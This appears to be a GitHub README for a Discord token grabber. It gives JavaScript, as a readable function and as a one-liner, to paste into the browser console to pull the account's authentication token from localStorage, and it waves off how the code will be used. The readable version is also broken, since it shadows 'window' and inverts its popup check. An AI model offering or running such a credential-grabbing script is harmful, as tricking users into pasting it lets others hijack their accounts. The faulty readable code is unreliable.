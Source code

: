 # jsConsole-discordTokenGrabber

Getting Discord token with javascript console.

Who knows what you are going to do with this code.

## Usage

* Open Discord in any supported browser(See below). And then paste the code into js console.

### Readable version

```js
function getToken() {
  // start a new tab/window under the same url
  let window = window.open();
  
  // check if the popup/new window opened successfully
  if(window || !window.document) {
    return console.error('Unable to get token: popup blocked!');
  }
  
  // fooling localStorage trick
  window.dispatchEvent(new Event('beforeunload'));
  
  // log token
  console.log(window.localStorage.token);
  
  // clean up
  window.close();
};

getToken();
```

### One-liner pasta for javascript console

```js
(function(){let w=window.open();if(!w||!w.document)return console.error('Unable to get token: popup blocked!');window.dispatchEvent(new Event('beforeunload'));console.log(w.localStorage.token);w.close()}());
```

### Tested browsers:

| Browsers       | Supported    |
| :------------- | -----------: |
| Chrome         | :heavy_check_mark:   | 
| Safari         | :x: |
